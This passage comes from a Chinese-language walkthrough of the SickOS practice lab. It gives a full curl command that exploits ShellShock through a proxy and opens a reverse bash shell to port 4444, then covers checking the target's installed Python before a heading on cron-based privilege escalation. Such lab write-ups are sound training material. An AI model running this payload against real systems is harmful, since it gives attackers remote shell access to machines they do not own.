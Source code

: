 

kali监听本机的4444端口, 利用ShellShock漏洞远程执行反弹shell命令

```
curl --proxy http://192.168.47.157:3128 -H "User-Agent:() { :;};/bin/bash -i >& /dev/tcp/192.168.47.157/4444 0>&1" http://192.168.47.157/cgi-bin/status
```

![image-20221205160336437](SickOS靶场/image-20221205160336437.png)

![image-20221205160342337](SickOS靶场/image-20221205160342337.png)	



## 3.主机基本信息收集

查看目标主机是否安装了python: `dpkg -l | grep "python"`, 可以发现目标主机只安装了python2

![image-20221205160640147](SickOS靶场/image-20221205160640147.png)



## 4.计划任务提权
